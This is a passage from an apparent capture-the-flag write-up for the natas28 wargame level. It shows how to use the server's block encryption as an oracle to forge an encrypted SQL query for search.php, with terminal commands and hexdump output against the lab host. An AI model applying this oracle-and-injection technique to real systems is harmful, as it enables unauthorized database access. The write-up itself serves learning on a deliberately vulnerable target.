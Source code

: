00000060: 944a e6e3 1b06 086f c084 c1b4 9fdd 4d50  .J.....o......MP
00000070: 944a e6e3 1b06 086f c084 c1b4 9fdd 4d50  .J.....o......MP
00000080: 24e9 57e0 1b85 4dcd 30d9 54ec aa93 0866  $.W...M.0.T....f
00000090: a095 22f3 01cf 9d36 ac70 23f1 6594 8c5a  .."....6.p#.e..Z
000000a0: 9739 cd90 522f a7a8 6f95 773b 56f9 f8c0  .9..R/..o.w;V...
{% endhighlight %}

Since the goal is to send our own crafted SQL statement that&#8217;s encrypted with this system, we don&#8217;t have to figure out the encryption itself, we can simply use it as an oracle that gives us exactly what we want&#8230;

What that means is we send our SQL as the input string we want to encrypt in such a way that it is put into the output starting at offset 30h (0x00000030). Then extract those bytes and that&#8217;s the encrypted version of our SQL statement, and we can post it to &#8220;search.php&#8221;.

From the earlier observations taken of input lengths, we can deduce that our target 0x30 block begins with the 11th input character. In other words, the first ten characters sent to the oracle don&#8217;t matter. But we need to make sure our input stays within our known window where the blocks are predictable, so we can cleanly extract what we want. One way to do that would be to fill in the remainder of the last block with dummy chars.

Like this&#8230; suppose the input is &#8220;000000000011111111111111111111111111111111&#8221;, which is made by the command `python -c “print(‘0’10 + ‘1’16*2)”`. This gives us the first 10 useless chars as &#8220;0&#8221; and 32 payload chars as &#8220;1&#8221;, which results in 2 useful oracle blocks:

{% highlight plain_text %}
root@kali:~# natas28 000000000011111111111111111111111111111111
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   992  100   944  100    48    410     20  0:00:02  0:00:02 --:--:--   431
G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPK9k3v%2Boj9xyHjD7FjiGWNblErm4xsGCG%2FAhMG0n91NUJRK5uMbBghvwITBtJ%2FdTVBzil%2F7SkUAJGd1F1rllrvW803zOcae3OEfZlC7ztYnAg%3D%3D
base64: invalid input
00000000: 1be8 2511 a7ba 5bfd 578c 0eef 466d b59c  ..%...[.W...Fm..
00000010: dc84 728f dcf8 9d93 751d 10a7 c75c 8cf2  ..r.....u....\..
00000020: bd93 7bfe a23f 71c8 78c3 ec58 e219 635b  ..{..?q.x..X..c[
00000030: 944a e6e3 1b06 086f c084 c1b4 9fdd 4d50  .J.....o......MP
00000040: 944a e6e3 1b06 086f c084 c1b4 9fdd 4d50  .J.....o......MP
00000050: 738a 5ffb 4a45 0024 6775 175a e596 bbd6  s._.JE.$gu.Z....
00000060: f34d f339 c69e dce1 1f66 50bb ced6 2702  .M.9.....fP...'.
{% endhighlight %}

Here&#8217;s a visualization of a SQL statement we could send and its relation to the oracle window (the &#8220;+&#8221; being a space in URL encoding):

{% highlight plain_text %}
000000000011111111111111111111111111111111
..........SELECT+*+FROM+jokes+++++++++++++
{% endhighlight %}

This is what we have back:

{% highlight plain_text %}
root@kali:~/otw/natas# echo "..........SELECT * FROM jokes             " | urlencode | natas28
Sending: ..........SELECT%20%2A%20FROM%20jokes%20%20%20%20%20%20%20%20%20%20%20%20%20
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1026  100   944  100    82    412     35  0:00:02  0:00:02 --:--:--   448
G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPKOGw9HPNy3SNDiT1Atyyb%2B6vUN12jxQYxd3lxf09PAjHs53rpC0ckH975k1JsPIfZzil%2F7SkUAJGd1F1rllrvW803zOcae3OEfZlC7ztYnAg%3D%3D
base64: invalid input
00000000: 1be8 2511 a7ba 5bfd 578c 0eef 466d b59c  ..%...[.W...Fm..
00000010: dc84 728f dcf8 9d93 751d 10a7 c75c 8cf2  ..r.....u....\..
00000020: 8e1b 0f47 3cdc b748 d0e2 4f50 2dcb 26fe  ...G&lt;..H..OP-.&.
00000030: eaf5 0dd7 68f1 418c 5dde 5c5f d3d3 c08c  ....h.A.].\_....
00000040: 7b39 deba 42d1 c907 f7be 64d4 9b0f 21f6  {9..B.....d...!.
00000050: 738a 5ffb 4a45 0024 6775 175a e596 bbd6  s._.JE.$gu.Z....